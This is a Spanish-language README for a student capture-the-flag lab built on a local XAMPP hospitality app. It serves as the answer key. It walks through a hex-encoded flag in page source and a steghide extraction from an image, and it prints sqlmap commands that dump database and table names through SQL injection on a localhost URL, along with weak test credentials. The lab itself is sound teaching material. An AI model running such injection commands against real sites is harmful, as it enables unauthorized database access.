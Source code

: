 # TP-DSA: App Home SWITCHHome

Autor:
- Matias Delle Donne


Dependencias
- XAMPP
- sqlmap

Instalar y activar XAMPP

Instalar base de datos

Forma de explotarlo

**La FLAG se divide en 3 partes:**

Primera parte:
```
Se encuentra en login.php, inspeccionando la pagina debemos bajar hasta el final para verla y despues decodificarla en hexadecimal
```

Segunda Parte:
Debemos estar en login.php y acceder como usuario normal en este caso:
- Usuario:gaston@hotmail.com
- Contraseña:123

Accedemos a nuestro perfil desde el apartado con nuestro nombre (Gaston) la opcion "Mi perfil"

Debemos descargar la foto que tendria los datos de una tarjeta de credito

Al descargarla usamos el comando:

```
steghide extract -sf card.jpg
```

ACLARACION
- card.jpg es el nombre que le puse, si lo cambian, cambiendolo en el comando


Al ejecutar el comando nos pedira una contraseña (passphrase), se encuentra en la descripcion de uno de los hospedajes en este caso seria "dsa"


Si todo va bien obtendremos un archivo llamado mensaje, el cual si le hacemos cat nos dara nuestra flag codificada en base64, tendremos que decodificarla hasta que aparezaca algun _


Tercera parte:

Nos logueamos como admin
- Usuario:admin@admin.com
- Contraseña:123


Accedemos al listado de hospedajes 
Seleccionamos el la opcion "Ver detalles" y obtememos la url
Utilizamos sqlmap para obtener las tablas con el comando
```
sqlmap -u "http://localhost/detalle-hospedaje.php?var=34" --dbs
```

Con eso buscaremos las tablas 
```
sqlmap -u "http://localhost/detalle-hospedaje.php?var=34" -D switchhome --tables
```

Y luego debemos obtener

-La columna dsa_ROT13 de la tabla notificacion

```
Su contenido debe der decodificado en ROT13, como lo indica el nombre de la columna
```



LA FLAG ENTERA:
```
Primera Parte + Segunda Parte + Tercera Parte
```
